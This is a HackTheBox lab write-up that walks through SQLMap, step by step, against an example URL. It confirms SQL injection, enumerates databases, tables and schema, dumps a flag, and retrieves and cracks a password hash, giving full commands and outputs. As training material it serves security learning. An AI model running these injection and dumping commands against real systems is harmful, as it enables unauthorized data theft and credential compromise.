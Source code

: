 # HTB-Writeup-Database-Enumeration
HackTheBox Writeup: Database Enumeration leveraging SQLMap for advanced SQL injection exploitation, schema discovery, and targeted data exfiltration.

By Ramyar Danshgar 


## **Part 1: SQLMap Essentials**


---

### **Step 1: Confirming SQL Injection Vulnerability**

The initial step was to identify and confirm the SQL injection vulnerability in the target URL (`http://www.example.com/?id=1`). This is the critical entry point for all subsequent exploitation.

#### **Command:**
```bash
sqlmap -u "http://www.example.com/?id=1"
```

#### **What SQLMap Does:**
- **Injection Testing:** SQLMap attempts various payloads to test for SQLi, such as `id=1 AND 1=1` or UNION-based injections.
- **DBMS Identification:** It determines the database type (e.g., MySQL, PostgreSQL) to tailor queries.
- **Injection Type Discovery:** SQLMap reports whether the vulnerability is Boolean-based, UNION-based, or error-based.

#### **Output:**
```plaintext
[INFO] the back-end DBMS is MySQL
Parameter: id (GET)
Type: Boolean-based blind
Payload: id=1 AND 1=1
```

Confirming the SQLi vulnerability and understanding the database backend (MySQL) provides the foundation for further exploitation. The type of injection dictates the methods and payloads used for enumeration.

---

### **Step 2: Retrieving Database Information**

With the vulnerability confirmed, the next step involved gathering metadata about the database environment, such as the version, current user, and active database.

#### **Command:**
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

#### **What SQLMap Does:**
- **`--banner`:** Extracts the database version (useful for determining potential exploits).
- **`--current-user`:** Identifies the connected user to understand privilege levels.
- **`--current-db`:** Reveals the active database name.
- **`--is-dba`:** Checks if the user has administrative privileges.

#### **Output:**
```plaintext
banner: '5.1.41'
current user: 'root@%'
current database: 'testdb'
current user is DBA: True
```

This step establishes context, such as admin privileges (`root` user), which can expand the scope of exploitation. The database version (`5.1.41`) might reveal potential version-specific vulnerabilities.

---

### **Step 3: Enumerating Tables**

To identify data storage structures, I enumerated all tables within the active database (`testdb`).

#### **Command:**
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

#### **What SQLMap Does:**
- **`--tables`:** Lists all table names in the specified database.
- **`-D testdb`:** Targets the `testdb` database.

#### **Output:**
```plaintext
Database: testdb
[1 table]
+--------+
| flag1  |
+--------+
```

Identifying the `flag1` table enables targeted extraction of data.

---

### **Step 4: Dumping Table Contents**

With the `flag1` table identified, the contents were extracted to retrieve the flag.

#### **Command:**
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T flag1 -D testdb
```

#### **What SQLMap Does:**
- **`--dump`:** Retrieves all rows and columns from the specified table.
- **`-T flag1`:** Focuses on the `flag1` table.
- **`-D testdb`:** Specifies the database to query.

#### **Output:**
```plaintext
Database: testdb
Table: flag1
[1 entry]
+----+----------------------------------------------+
| id | content                                      |
+----+----------------------------------------------+
| 1  | HTB{c0ngr4t5_y0u_und3rst00d_SQLMap_basics!} |
+----+----------------------------------------------+
```

Extracting table contents confirms successful exploitation and retrieves the flag: `HTB{c0ngr4t5_y0u_und3rst00d_SQLMap_basics!}`.

---

## **Part 2: Advanced Database Enumeration**

---

### **Step 1: Retrieving Database Schema**

Schema enumeration provides a detailed view of the database architecture, including tables and their columns.

#### **Command:**
```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```

#### **Output:**
```plaintext
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+
```

Schema exploration reveals table structures and potential data storage locations, assisting in identifying high-value targets.

---

### **Step 2: Searching for Specific Data**

When databases contain numerous tables and columns, I used search queries to locate specific data points.

#### Example: Searching for Columns Containing "style"
```bash
sqlmap -u "http://www.example.com/?id=1" --search -C style
```

#### Output:
```plaintext
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+
```

Searching for keywords like "style" helps locate relevant columns quickly, improving efficiency during enumeration.

---

### **Step 3: Password Retrieval**

SQLMap can identify and retrival of password hashes using built-in dictionary attacks.

#### **Command:**
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

#### **Output:**
```plaintext
Recognized possible password hashes in column 'password'
Retrieved password 'Enizoom1609' for hash 'd642ff0feca378666a8727947482f1a4702deba0'
```

Retrieval of hashes highlights weak password policies, demonstrating how attackers can exploit such vulnerabilities.

---

## **Lessons Learned**

1. **Structured Workflow:**
   - Confirm vulnerability → Enumerate schema → Extract data → Perform targeted attacks.

2. **SQLMap:**
   - Features like `--schema`, `--search`, and hash-retrieval streamline enumeration.

3. **Privilege Awareness:**
   - Assessing admin rights (`--is-dba`) expands potential attack vectors, emphasizing the importance of least-privilege principles.

4. **Password Security:**
   - Weak passwords remain a critical risk. Stronger policies and encryption must be enforced.
